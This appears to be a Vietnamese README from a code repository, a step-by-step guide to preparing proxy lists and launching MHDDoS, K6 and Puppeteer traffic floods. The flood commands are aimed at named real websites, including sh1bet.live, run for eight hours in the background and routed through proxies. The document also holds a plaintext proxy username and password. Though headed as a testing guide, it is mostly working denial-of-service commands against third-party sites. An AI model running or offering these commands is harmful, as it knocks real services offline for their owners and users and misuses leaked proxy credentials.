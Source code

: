 # 🛡️ Hướng dẫn sử dụng Proxy và công cụ kiểm thử MHDDoS / K6 / Puppeteer

## 1️⃣ Thay đổi định dạng chuỗi Proxy

### ➕ Thêm `http://` vào đầu mỗi dòng:

```bash
sed -i 's|^|http://|' proxies.txt`
```

### 🔄 Chuyển định dạng để kiểm tra proxy còn sống:

```bash
awk -F: '{print "http://" $3 ":" $4 "@" $1 ":" $2}' proxies_input.txt > proxies_tmp.txt
mv proxies_tmp.txt proxies_input.txt`
```

### 🧩 Chuyển sang định dạng phù hợp với **MHDDoS**:

```bash
awk '
/@/ {
match($0, /http:\/\/([^:]+):([^@]+)@([^:]+):([0-9]+)/, arr)
if (arr[1] && arr[2] && arr[3] && arr[4]) {
print "http://" arr[3] ":" arr[4] ":" arr[1] ":" arr[2]
} else {
print "# Lỗi: " $0
}
}
/@/! {
print $0
}
' proxies.txt > proxies_fixed.txt
mv proxies_fixed.txt proxies.txt
```

---

## 2️⃣ Kiểm tra Proxy còn sống

```bash
parallel -j 100 '
  if curl --proxy {} --max-time 5 -s https://httpbin.org/ip > /dev/null; then
    echo {} >> proxies_live.txt
    echo "✅ {}"
  else
    echo {} >> proxies_dead.txt
    echo "❌ {}"
  fi
' :::: proxies_input.txt
```

## 3️⃣ Lọc trùng các Proxy sống

```bash
sort -u proxies_live.txt -o proxies_live.txt
```

---

## 4️⃣ Cập nhật danh sách Proxy sống

```bash
mv proxies_live.txt proxies.txt
```

---

## 5️⃣ 🧨 MHDDoS

📁 Chuyển thư mục:
```bash
cd MHDDoS
```
### ▶️ Ví dụ lệnh chạy:

```bash
nohup python3 start.py CFB https://skyxtoken.io/ 1 1000 proxies.txt 120 28800 >/dev/null 2>&1 &
nohup python3 start.py CFB https://sh1bet.live/ 1 1000 proxies.txt 70 28800 >/dev/null 2>&1 &
nohup python3 start.py CFB https://solnic.io/ 1 1000 proxies.txt 70 28800 >/dev/null 2>&1 &
```

---

## 6️⃣ 🧪 K6

📁 Chuyển thư mục:

```bash
cd bot`
```
> ⚙️ Cấu hình trong file `run.sh`, đảm bảo file `proxies_k6.txt` đúng định dạng

### ▶️ Ví dụ test đơn:

```bash
export HTTP_PROXY="http://ugbp7v4r:uGbP7v4R@103.151.122.165:20211"

k6 run test.js
-e BASE_URL="https://sh1bet.live/"\
-e VUS=10000\
-e DURATION="10m"
```

### ▶️ Ví dụ chạy hàng loạt:

```bash
./run_k6.sh
```

---

## 7️⃣ 🕵️ Puppeteer

📁 Chuyển thư mục:

```bash
cd bot
```

> ⚙️ Kiểm tra file `proxies.txt`

### ▶️ Ví dụ test đơn:

```bash
node main.js 10 https://sh1bet.live 30
```

### ▶️ Ví dụ chạy hàng loạt:

```bash
nohup node main.js 100 https://sh1bet.live 28800 >/dev/null 2>&1 &
```

---

## 🛑 Dừng khẩn cấp

| Công cụ   | Lệnh dừng           |
| --------- | ------------------- |
| MHDDoS    | `pkill -f start.py` |
| K6        | `pkill -f k6`       |
| Puppeteer | `pkill node`        |
